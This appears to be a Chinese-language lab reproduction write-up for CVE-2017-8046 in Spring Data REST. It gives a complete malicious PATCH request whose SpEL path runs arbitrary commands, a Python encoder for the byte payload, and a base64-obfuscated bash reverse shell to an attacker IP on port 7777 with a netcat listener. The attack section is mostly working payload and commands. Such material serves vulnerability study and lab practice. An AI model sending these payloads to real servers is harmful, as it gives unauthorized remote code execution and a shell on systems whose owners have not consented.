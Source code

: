 # Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）

# 漏洞原理

**Spring-data-rest服务器在处理PATCH请求时，攻击者可以构造恶意的PATCH请求[并发](https://so.csdn.net/so/search?q=并发&spm=1001.2101.3001.7020)送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码**



# 影响版本

- Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3
- Spring Boot version < 2.0.0M4
- Spring Data release trains < Kay-RC3





# 漏洞复现

命令执行
访问`http://your-ip:8080/customers/1`，然后抓取数据包，使用**PATCH**请求来修改

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080                          ip修改为对方ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
```



其中`new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`表示的命令`touch /tmp/success`



这是将每个字符转为对应的十进制，可以通过下面的python3代码进行转换：

```
payload = b'touch /tmp/success'
bytecode = ','.join(str(i) for i in list(payload))
print(bytecode)
```

可以看到/tmp/目录中成功创建success

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200706093715941.png)





# 反弹shell

payload：

```bash
bash -i >& /dev/tcp/x.x.x.x/7777 0>&1
```

进行base64编码：

bash -c {echo,xxx}|{base64,-d}|{bash,-i}

xxx内填写base64编码后的数据，如下

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3LjEyOC83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}
```

![image-20220429172932598](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220429172932598.png)

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3LjEyOC83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}

通过进制转换将上面的数据转换为ASCII码

![image-20220429173312985](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220429173312985.png)

```ascii
98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,69,51,76,106,69,121,79,67,56,51,78,122,99,51,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125
```



将上面的ASCII码替换到下面的payload，重新发送数据包

![image-20220429173430565](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220429173430565.png)



**kali监听端口 nc -lvvp 7777**

![image-20220429173619625](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220429173619625.png)

成功反弹shell



[传送门](https://blog.csdn.net/baidu_38844729/article/details/107149916?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165122329816782388031349%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=165122329816782388031349&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~hot_rank-1-107149916.142^v9^pc_search_result_cache,157^v4^control&utm_term=Spring+Data+Rest+%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2017-8046%EF%BC%89&spm=1018.2226.3001.4187)